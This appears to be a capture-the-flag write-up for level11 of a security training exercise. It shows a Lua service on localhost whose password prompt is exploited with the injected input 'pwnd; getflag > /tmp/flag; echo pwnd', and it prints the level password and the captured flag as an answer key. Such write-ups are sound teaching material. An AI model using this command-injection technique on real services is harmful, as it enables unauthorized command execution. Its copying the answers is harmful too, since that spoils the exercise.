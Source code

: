 # level11

## Vulnerability: Unchecked input leading to code injection

level11's password: `feulo4b72j7edeahuete3no7c`

1. examinate existing files and permissions

```shell
ls -la
```

shows a lua script that is supposed to run on 127.0.0.1:5151, with flag11 permissions

2. try to connect to it with netcat

```shell
nc 127.0.0.1 5151
```

Asking for a password, as expected

3. inject some code to trick the script to run getflag for us

```shell
pwnd; getflag > /tmp/flag; echo pwnd
cat /tmp/flag
```

gives flag `fa6v5ateaw21peobuub8ipe6s`
